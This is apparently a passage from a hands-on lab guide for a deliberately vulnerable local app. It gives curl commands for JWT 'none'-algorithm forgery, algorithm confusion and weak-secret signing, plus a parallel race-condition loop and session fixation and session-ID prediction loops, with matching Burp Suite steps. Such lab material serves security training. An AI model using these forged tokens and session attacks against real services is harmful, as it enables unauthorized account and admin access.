 **Using curl for JWT attacks:**
```bash
# None algorithm attack
curl -X POST "http://localhost:5000/api/vuln/auth-advanced" \
  -H "Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4iLCJyb2xlIjoiYWRtaW5pc3RyYXRvciJ9."

# Algorithm confusion attack (RS256 to HS256)
curl -X POST "http://localhost:5000/api/vuln/auth-advanced" \
  -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJyb2xlIjoiYWRtaW5pc3RyYXRvciJ9.SIGNATURE_USING_PUBLIC_KEY_AS_HMAC_SECRET"

# Weak secret brute force
curl -X POST "http://localhost:5000/api/vuln/auth-advanced" \
  -H "Authorization: Bearer $(echo -n 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJyb2xlIjoiYWRtaW5pc3RyYXRvciJ9' | openssl dgst -sha256 -hmac 'secret' -binary | base64 | tr -d '\n')"
```

**Using Burp Suite JWT Editor:**
1. Install JWT Editor extension
2. Intercept authentication requests
3. Modify JWT claims in the extension
4. Test algorithm confusion attacks
5. Brute force weak signing secrets

#### Step 2: Session Race Condition Exploitation
**Objective:** Exploit timing vulnerabilities in authentication

**Using curl with parallel requests:**
```bash
#!/bin/bash
# Race condition attack on session validation
for i in {1..100}; do
  curl -X POST "http://localhost:5000/api/vuln/auth-advanced" \
    -d "username=admin&password=wrong&exploit=race" &
done
wait
```

**Advanced race condition with Burp Suite:**
1. Send authentication request to Intruder
2. Set attack type to "Null payloads"
3. Configure high thread count (50-100)
4. Use "Resource Pool" to control timing
5. Analyze responses for timing-based vulnerabilities

#### Step 3: Advanced Session Manipulation
**Objective:** Exploit session management vulnerabilities

**Using curl for session attacks:**
```bash
# Session fixation
curl -c cookies.txt "http://localhost:5000/api/vuln/auth-advanced?JSESSIONID=ATTACKER_CONTROLLED_SESSION"
curl -b cookies.txt -X POST "http://localhost:5000/api/vuln/auth-advanced" \
  -d "username=victim&password=password"

# Session prediction
for i in {1000..1100}; do
  curl -b "sessionid=$i" "http://localhost:5000/api/vuln/auth-advanced/profile"
done
```
